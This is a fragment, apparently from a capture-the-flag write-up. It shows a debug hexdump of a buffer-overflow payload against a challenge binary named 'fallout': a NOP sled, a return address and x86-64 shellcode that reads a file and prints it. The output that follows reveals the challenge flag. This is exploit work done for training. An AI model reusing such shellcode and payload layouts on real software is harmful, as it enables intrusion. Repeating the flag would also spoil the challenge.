 ```shell
    *
    00000040  90 90 90 90  90 90 90 90  5a 11 40 00  00 00 00 00  │····│····│Z·@·│····│
    00000050  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    00000060  68 75 79 75  01 81 34 24  01 01 01 01  48 b8 6d 65  │huyu│··4$│····│H·me│
    00000070  73 73 61 67  65 2e 50 6a  02 58 48 89  e7 31 f6 0f  │ssag│e.Pj│·XH·│·1··│
    00000080  05 41 ba ff  ff ff 7f 48  89 c6 6a 28  58 6a 01 5f  │·A··│···H│··j(│Xj·_│
    00000090  99 0f 05 31  ff 6a 3c 58  0f 05 0a                  │···1│·j<X│···│
    0000009b
[*] Switching to interactive mode

[*] Process './fallout' stopped with exit code 0 (pid 86826)
[DEBUG] Received 0x17 bytes:
    b'w3lc0me_t0_th3_f4ll0u7\n'
w3lc0me_t0_th3_f4ll0u7
[*] Got EOF while reading in interactive
$
```

We successfully executed our malicious shellcode.

